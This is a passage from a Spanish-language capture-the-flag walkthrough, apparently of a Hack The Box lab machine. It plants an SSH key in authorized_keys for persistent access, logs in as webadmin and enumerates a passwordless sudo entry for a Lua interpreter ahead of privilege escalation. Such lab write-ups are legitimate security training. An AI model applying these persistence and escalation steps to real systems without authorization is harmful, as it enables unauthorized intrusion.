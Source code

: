 ```
$ cp id_rsa.pub authorized_keys

$ ls -l
.rw-r--r--  segsalvaje  segsalvaje  569 B   Wed Aug 19 16:54:48 2020    authorized_keys
.rw-------  segsalvaje  segsalvaje  2.5 KB  Wed Aug 19 16:53:39 2020    id_rsa
.rw-r--r--  segsalvaje  segsalvaje  569 B   Wed Aug 19 16:53:39 2020    id_rsa.pub

```

Ya tenemos acceso al servidor como usuario webadmin.

```
$ ssh -i id_rsa webadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 



Last login: Thu Feb 27 06:29:02 2020 from 10.10.14.3
webadmin@traceback:~$ 
```
En el directorio home de webadmin, nos encontramos una nota del usuario sysadmin:

``` bash
$ cat /home/webadmin/note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```
## Escalada de privilegios

Si analizamos los sudo que tiene el usuario webadmin. Vemos la utilitdad que nos comenta sysadmin en el fichero note.txt.

```
$ sudo -ll
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:

Sudoers entry:
    RunAsUsers: sysadmin
    Options: !authenticate
    Commands:
        /home/sysadmin/luvit

```
